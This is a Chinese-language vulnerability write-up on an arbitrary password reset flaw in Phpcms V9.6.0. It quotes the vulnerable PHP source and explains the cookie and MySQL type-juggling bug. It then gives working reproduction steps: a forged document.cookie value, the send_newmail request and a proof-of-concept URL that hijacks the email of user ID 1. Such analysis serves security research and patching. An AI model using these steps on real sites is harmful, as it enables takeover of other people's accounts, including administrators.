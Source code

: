 Phpcms V9.6.0 任意密码重置漏洞
==============================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.0

三、复现过程
------------

### 漏洞分析

`/phpcms/modules/member/index.php` 第267到312行

    public function send_newmail() {
        $_username = param::get_cookie('_regusername');
        $_userid = param::get_cookie('_reguserid');
        $_ssouid = param::get_cookie('_reguseruid');
        $newemail = $_GET['newemail'];
     
        if($newemail==''){//邮箱为空，直接返回错误
            return '2';
        }
        $this->_init_phpsso();
        $status = $this->client->ps_checkemail($newemail);
        if($status=='-5'){//邮箱被占用
            exit('-1');
        }
        if ($status==-1) {
            $status = $this->client->ps_get_member_info($newemail, 3);
            if($status) {
                $status = unserialize($status); //接口返回序列化，进行判断
                if (!isset($status['uid']) || $status['uid'] != intval($_ssouid)) {
                    exit('-1');
                }
            } else {
                exit('-1');
            }
        }
        //验证邮箱格式
        pc_base::load_sys_func('mail');
        $code = sys_auth($_userid.'|'.microtime(true), 'ENCODE', get_auth_key('email'));
        $url = APP_PATH."index.php?m=member&c=index&a=register&code=$code&verify=1";
     
        //读取配置获取验证信息
        $member_setting = getcache('member_setting');
        $message = $member_setting['registerverifymessage'];
        $message = str_replace(array('{click}','{url}','{username}','{email}','{password}'), array('<a href="'.$url.'">'.L('please_click').'</a>',$url,$_username,$newemail,$password), $message);
     
        if(sendmail($newemail, L('reg_verify_email'), $message)){
            //更新新的邮箱，用来验证
            $this->db->update(array('email'=>$newemail), array('userid'=>$_userid));
            $this->client->ps_member_edit($_username, $newemail, '', '', $_ssouid);
            $return = '1';
        }else{
            $return = '2';
        }
        echo $return;
    }

　　`$_userid`用 `param::get_cookie('_reguserid')` 来获取

跟进去：`/phpv9.6.0/phpcms/libs/classes/param.class.php` 第106-117行。

    public static function get_cookie($var, $default = '') {
        $var = pc_base::load_config('system','cookie_pre').$var;
        $value = isset($_COOKIE[$var]) ? sys_auth($_COOKIE[$var], 'DECODE') : $default;
        if(in_array($var,array('_userid','userid','siteid','_groupid','_roleid'))) {
            $value = intval($value);
        } elseif(in_array($var,array('_username','username','_nickname','admin_username','sys_lang'))) { //  site_model auth
            $value = safe_replace($value);
        }
        return $value;
    }

　　这时候的\$var的值是\_reguserid，
然后获取前缀。`pc_base::load_config('system','cookie_pre')`

　　\$var的值就变成了gggCB\_\_reguserid，然后进到`sys_auth($_COOKIE[$var], 'DECODE')`,由于这个值我们是可控的，那找个可控的地方加密一下，也就是注册的时候，把名字注册成1xxxx(为什么是这样的后面会说)
，然后他会对username进行加密，我们只要注册一个号，然后复制出里面username的值就行。

接着有个if判断，这就是我说文章分析错的地方，这里的\$var的值是gggCB\_\_reguserid，根本不在后面的这个数组里面，所以进入不到\$value
= intval(\$value);

所以不能intval出数字来，所以文章分析错了，但是还是能密码重置。接着看，返回了\$value的值，也就是1xxxx。

省略中间的运行：来到304行，看这句

`$this->db->update(array('email'=>$newemail), array('userid'=>$_userid));`

进行update操作，\$newemail的值是我们给的，\$\_userid是 1xxxx 。

跟进去形成sql修改。语句是这样的。

    UPDATE `phpcms`.`v9_member` SET `email`='aa223d@qq.com' WHERE `userid` = '1xxxx'

然后在mysql中，where 1 = \'1sFdsfdsf\'
是相等的，因为后面的字符串转为了数组1

![1.png](./resource/PhpcmsV9.6.0任意密码重置漏洞/media/rId25.png)

所以他的语句就变成了

    UPDATE `phpcms`.`v9_member` SET `email`='aa223d@qq.com' WHERE `userid` = '1'

然后重置掉了用户userid为1 的用户

2.png

### 漏洞复现

大概的攻击流程是这样的。

注册一个1xxx
，然后获取cookie中的username的值，然后切换一个浏览器，再次打开网页，在f12中，设置cookie的值，注意\_\_reguserid前面的gggCB也要和username的值一样

`document.cookie='gggCB__reguserid=2f22C0FxoGesxWq73GqUXpuJBDAAEO_KZL5MuEDDeaEj9w'`

然后访问
`/index.php?m=member&c=index&a=send_newmail&siteid=1&newemail=q123456@qq.com`

看到页面返回1就代表成功了，然后就去

`/index.php?m=member&c=index&a=public_forget_password&siteid=1`

输入你的邮箱 重置掉userid=1的密码。

最终poc为

    https://www.0-sec.org/index.php?m=member&c=index&a=send_newmail&siteid=1&newemail=aa222a@qq.com

参考链接
--------

> https://www.cnblogs.com/yangxiaodi/p/6890298.html
